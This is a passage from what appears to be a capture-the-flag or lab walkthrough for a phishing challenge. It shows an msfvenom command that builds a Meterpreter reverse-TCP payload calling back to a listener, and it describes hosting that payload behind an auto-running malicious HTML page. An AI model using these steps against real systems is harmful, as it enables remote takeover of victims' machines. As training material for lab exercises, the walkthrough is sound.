 You can send the email now and trigger the grading check later, or wait to send the email until you have the web server and listener setup and running. We recommend sending now so you aren't waiting for the mail server to receive it later.

Next, create the payload you would like to host on the webserver/website. Your IP and port could differ as long as you configure the machine as needed. You should not use port 80 with `123.45.67.150` because this is what will host your webserver.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=123.45.67.150
LPORT=8080 -f elf > payload.elf
```

![](./img/c21-image28.png)

Set up an interface for `123.45.67.150`. You can use a virtual interface:

```bash
sudo ifconfig eth0:1 123.45.67.150/24
```

Setup a simple Python http server that will host a payload using malicious html template to auto run on access.

Download the Python webserver template from `https://challenge.us/files`:

![](./img/c21-image29.png)

Modify the template to point to the location of the payload you created.

![](./img/c21-image30.png)
